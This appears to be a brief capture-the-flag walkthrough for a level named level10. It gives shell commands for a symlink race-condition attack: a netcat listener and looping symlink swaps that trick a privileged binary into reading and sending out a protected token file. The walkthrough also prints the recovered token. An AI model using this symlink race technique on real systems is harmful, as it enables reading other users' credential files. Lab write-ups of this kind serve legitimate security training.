 # Steps

1) Open 3 shell as user `level10`
2) Create a new file in tmp called `/tmp/test`
3) Run these scripts on them
`netcat -lk 6969`
`while :; do ln -fs /tmp/test /tmp/pipe; ln -fs /home/user/level10/token /tmp/pipe; done`
`while :; do ./level10 /tmp/pipe 127.0.0.1; done`
4) Get the token needed for `flag10` = `woupa2yuojeeaaed06riuj63c`
5) Log in as `flag10` and run `getflag`